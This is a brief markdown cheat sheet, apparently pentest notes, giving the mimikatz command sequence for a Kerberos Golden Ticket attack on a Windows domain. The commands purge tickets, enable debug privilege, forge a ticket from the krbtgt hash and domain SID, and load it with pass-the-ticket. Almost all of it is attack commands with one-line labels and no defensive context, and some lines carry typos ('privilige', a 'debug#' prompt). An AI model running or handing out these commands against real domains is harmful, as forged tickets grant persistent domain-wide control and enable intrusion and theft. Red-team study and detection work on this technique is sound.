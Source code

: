 # Windows - Golden Ticket

```klist purge```

Purge all ticket

```
mimikatz# privilige::debug
Privilige '20' OK
```

Check privilege level

```
mimikatz# kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /<cipher_type(e.g. AES256)><krbtgt_hash> /ticket:<generated_ticket_name>
```

Create Golden ticket

```debug# kerberos::ptt <ticket_name>```

Load Golden ticket
